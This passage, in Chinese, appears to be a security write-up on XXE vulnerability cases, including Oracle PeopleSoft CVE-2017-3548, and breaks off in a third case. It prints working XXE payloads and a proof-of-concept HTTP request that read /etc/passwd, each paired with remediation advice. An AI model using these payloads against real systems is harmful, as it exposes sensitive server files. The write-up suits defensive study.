 # 二、案例

### 1. 未禁用外部实体（经典XXE）

#### 技术原理

- **XML结构特征**：

  ```
  <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>  <!-- 定义外部实体 -->
  <ProfileID>&ent;</ProfileID>  <!-- 实体引用触发解析 -->
  ```

- **漏洞触发点**：目标接口（如 `POST /ca/rest/certrequests`）接收未过滤的XML输入。

- **核心缺陷**：XML解析器未禁用DTD（文档类型定义）和外部实体加载功能，导致实体引用可解析本地/远程资源。

#### PoC验证（模拟场景）

```
POST /ca/rest/certrequests HTTP/1.1
Content-Type: application/xml
...
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <ProfileID>&ent;</ProfileID>  <!-- 响应中返回文件内容 -->
</CertEnrollmentRequest>
```

**修复建议**：禁用XML解析器的外部实体处理（如Java中设置 `XMLConstants.FEATURE_SECURE_PROCESSING`）。

------

### 2. Oracle PeopleSoft XXE（CVE-2017-3548）

#### 漏洞机理

- **实体注入结构**：

  ```
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <data>&xxe;</data>
  ```

- **触发条件**：服务端解析XML时未启用安全配置（如未限制 `FEATURE_SECURE_PROCESSING`），允许加载外部实体。

**防御方案**：升级至官方修复版本，强制关闭外部实体解析。

------

### 3. 基于SpellCheck端点的XXE

#### 复现路径

1. **认证与会话**：使用合法凭证登录系统获取Cookie。
